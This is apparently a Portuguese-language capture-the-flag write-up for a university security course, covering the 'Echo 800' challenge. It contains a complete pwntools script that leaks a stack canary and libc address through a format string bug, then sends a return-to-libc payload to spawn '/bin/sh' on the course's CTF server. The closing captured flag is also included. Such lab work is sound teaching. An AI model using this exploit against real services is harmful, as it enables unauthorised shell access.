 # CTF Echo 800
Decidimos executar o programa fornecido efoi nos exibido um prompt solicitando uma opção, como podemos verificar:
```shell
[06/04/23]seed@VM:~/Downloads$ ./program
Insert an option:
- "e" to echo your input.
- "q" to quit the program.
>
```
No entanto, ao investigar mais a fundo o programa, fizemos um debug om o `gdb`, descobrimos que a função fgets esta a ler 100 caracteres, o que era estranho, pois o limite máximo deveria ser de apenas 20 caracteres.

Com base nessa descoberta, começamos a suspeitar de uma vulnerabilidade de formatação de string. Para confirmar nossas suspeitas, decidimos testar inserindo uma sequência de formatação %x como o nome:

```
^Z
[1]+  Stopped                 ./program
[06/04/23]seed@VM:~/Downloads$ 
[06/04/23]seed@VM:~/Downloads$ ./program
Insert an option:
- "e" to echo your input.
- "q" to quit the program.
>e       
Insert your name (max 20 chars): %x%x%x%x%x
65e7458417825782578257825a7825
Insert your message: 

```
Como conseguimos imprimir informações da stack, fomos então pesquisar ataques desta vulnerabilidade de formatação de string.
Durante nossa pesquisa, encontramos informações sobre um ataque chamado "Return-to-libc". Esse ataque se aproveita de uma vulnerabilidade de stack overflow para modificar o fluxo de execução do programa e executar código arbitrário. Decidimos implementar um script para realizar esse ataque.

```python
#!/usr/bin/python3
from pwn import *

LOCAL = False

# Definindo os deslocamentos necessários
referenceLibOffset = 0xf7daa519 - 0xf7d89000
systemLibOffset = 0x48150
shLibOffset = 0x1bd0f5

# Função para enviar mensagens
def sendMessage(p, message):
    p.recvuntil(b">")  # Aguarda até receber o caractere '>'
    p.sendline(b"e")  # Envia a letra 'e'
    p.recvuntil(b"Insert your name (max 20 chars): ")  # Aguarda até receber a mensagem de inserção do nome
    p.sendline(message)  # Envia a mensagem fornecida como argumento
    answer = p.recvline()  # Recebe a resposta
    p.recvuntil(b"Insert your message: ")  # Aguarda até receber a mensagem de inserção da mensagem
    p.sendline(b"")  # Envia uma linha vazia como mensagem
    return answer  # Retorna a resposta recebida

if LOCAL:
    pause()  # Pausa a execução do programa, se estiver em ambiente local
else:
    p = remote("ctf-sp.dcc.fc.up.pt", 4002)  # Conecta-se ao servidor remoto

# Envia a primeira mensagem para obter informações importantes
firstMessage = sendMessage(p, b"%8$x-%11$x")

# Obtém o valor do canário e da referência convertendo-os para inteiros a partir da primeira mensagem recebida
canary, referenceVal = [int(val, 16) for val in firstMessage.split(b'-')]

# Calcula a base da biblioteca usando o deslocamento da referência
libBase = referenceVal - referenceLibOffset

# Calcula o endereço da função system e da string "/bin/sh" usando os respectivos deslocamentos
addressSystem = libBase + systemLibOffset
addressSH = libBase + shLibOffset

# Cria a segunda mensagem usando os valores obtidos
secondMessage = flat(b"A"*20, canary + 1, b"A"*8, addressSystem, b"A"*4, addressSH)

# Envia a segunda mensagem
sendMessage(p, secondMessage)

# Envia uma terceira mensagem com caracteres 'A' repetidos 19 vezes
sendMessage(p, b"A"*19)

p.interactive()  # Permite interação com o programa após o envio das mensagens
```

- No script, estabelecemos uma conexão com o servidor remoto e enviamos a primeira mensagem para obter informações importantes. Analisamos a resposta e extraímos o valor do canário e da referência, convertendo-os em inteiros.

- Usando esses valores, calculamos a base da biblioteca dinâmica, que é necessária para determinar os endereços das funções desejadas. Com base nos deslocamentos fornecidos, calculamos os endereços da função `system` e da string `/bin/sh`.

- Em seguida, criamos a segunda mensagem, que é projetada para explorar a vulnerabilidade de estouro de pilha e redirecionar a execução do programa para a função `system`, passando o endereço da string `/bin/sh` como argumento.

- Por fim, enviamos a segunda mensagem para executar o ataque Return-to-libc e, em seguida, enviamos uma terceira mensagem com caracteres 'A' repetidos 19 vezes, apenas para manter a interação com o programa remoto.

Executamos o programa, e como já tinhamos acesso á shell fizemos só um `ls` o que tinha lá a flag.

![image](https://github.com/DCC-FCUP-SP/sp2223-t02g10/assets/102924343/b7423fe5-49d8-4c31-a966-2dbb57cda2e6)

```
flag{11ae7bc9ff1999e48a4dbc98ea49a4ab}
```
